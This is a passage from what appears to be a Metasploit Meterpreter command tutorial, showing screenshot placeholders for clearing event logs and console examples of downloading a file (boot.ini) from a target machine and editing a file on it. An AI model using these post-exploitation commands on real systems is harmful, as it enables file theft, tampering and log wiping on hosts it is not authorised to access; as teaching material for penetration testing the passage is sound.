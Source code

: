 After

![Image](7_clearev_before.png)

![Image](8_clearev_after.png)

# 9 - download

The download command downloads a file from the remote machine. Note the use of the double-slashes when giving the Windows path.

```
meterpreter > download c:\\boot.ini

[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini

meterpreter >
```

# 10 - edit

The edit command opens a file located on the target host. It uses the ‘vim’ so all the editor’s commands are available.

Example usage:

```
meterpreter > ls

Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
.
...snip...
.
100666/rw-rw-rw-  0       fil   2012-03-01 13:47:10 -0500  edit.txt

meterpreter > edit edit.txt
```
